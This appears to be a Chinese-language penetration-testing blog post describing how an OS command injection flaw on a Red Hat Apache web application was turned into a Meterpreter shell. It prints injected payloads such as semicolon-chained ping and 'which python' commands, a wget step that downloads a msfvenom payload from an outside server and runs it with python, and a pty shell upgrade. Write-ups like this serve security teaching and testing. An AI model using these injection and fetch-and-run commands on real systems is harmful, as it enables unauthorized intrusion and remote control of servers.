 ```yaml
---
date: 2025-08-06T10:01:27+08:00
title: OS命令注入实战：从挫折到获取Shell的完整历程
tags: [OS命令注入, 渗透测试, Web安全, Metasploit, Python反弹shell]
authors: qife
description: 本文详细记录了在Red Hat Linux系统上通过OS命令注入漏洞获取Meterpreter会话的全过程，包括32字符长度限制绕过、响应头数据泄露利用、Python反弹shell技巧等实战技术细节。
---
```


# OS命令注入实战：从挫折到获取Shell的完整历程

Carrie Roberts //

OS命令注入非常有趣。最近我在测试某个Web应用时发现了这个漏洞（感谢Burp Suite扫描器）。虽然预感到即将获得shell，但实际过程却比预期困难得多。以下是我的探索历程和技术收获。

## 初始发现
已知目标运行在Red Hat Linux的Apache服务器上。通过以下注入成功触发外部服务器(1.2.3.4)的ICMP响应，分号用于分隔原始命令：
```bash
;ping -c 3 1.2.3.4
```
使用tcpdump验证请求：
```bash
tcpdump -nni eth0 icmp
```

## 遇到的障碍
1. **32字符长度限制**：通过反复测试发现命令被截断，推测因数据库存储限制
2. **非常规响应机制**：`/etc/passwd`内容意外出现在响应头而非响应体
3. **环境限制**：无netcat可用，但发现Python环境

## 关键技术突破
1. **响应头注入技巧**：
```bash
echo -n s:;which python  # 输出会附加到响应头
```

2. **Python反弹shell**：
- 使用msfvenom生成payload
- 必须禁用stage编码：`set EnableStageEncoding false`
- 通过wget传输payload：
```bash
wget "myserver.net" -O ~/z
python ~/z
```

3. **TTY升级**：
```python
python -c 'import pty; pty.spawn("/bin/sh")'
```

## 经验总结
- 注意非常规输出渠道（如HTTP头）
- 长度限制下需精简命令
- Python是受限环境中的利器
- 真实环境往往比理论更复杂

> 这就是黑客攻防的本质——看似简单的漏洞，实战中总会遇到意想不到的挑战。